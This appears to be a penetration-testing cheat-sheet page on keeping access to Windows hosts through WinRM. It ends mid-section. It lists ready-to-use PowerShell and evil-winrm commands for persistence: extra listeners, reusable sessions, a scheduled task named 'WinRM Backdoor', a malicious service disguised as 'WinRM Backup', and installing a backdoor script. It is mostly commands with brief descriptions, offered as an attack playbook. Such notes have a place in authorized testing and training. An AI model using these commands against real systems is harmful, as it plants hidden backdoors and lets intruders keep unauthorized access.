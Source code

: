 ### Persistence

#### Adding a New WinRM Listener

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    winrm create winrm/config/Listener?Address=*+Transport=HTTPS
    ```
* **Description:** Create an additional WinRM listener on a different port to maintain persistent access.

#### Creating a Persistent Session

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    $session = New-PSSession -ComputerName <target_ip>
    ```
* **Description:** Establishes a persistent remote session that can be re-used for multiple commands, maintaining access over time.

#### Creating Scheduled Tasks

* **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

```powershell
schtasks /create /tn "WinRM Backdoor" /tr "powershell.exe -Command 'Start-Process powershell.exe -ArgumentList Enter-PSSession -ComputerName <target_ip> -UseSSL'" /sc onstart
```

* **Description:** Schedules a task to re-enable or maintain a persistent WinRM session upon system reboot.

#### Creating Services

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    New-Service -Name "MaliciousWinRM" -Binary "malicious.exe" -DisplayName "WinRM Backup"
    ```
* **Description:** Register a malicious service that provides persistent access through WinRM.

#### Installing Backdoors

*   **Tool:** \[\[Evil-WinRM Cheat Sheet]]

    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -s backdoor.ps1
    ```
* **Description:** Executes a PowerShell script to install a backdoor on the remote machine for persistent access.

#### Backdoor Creation

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]
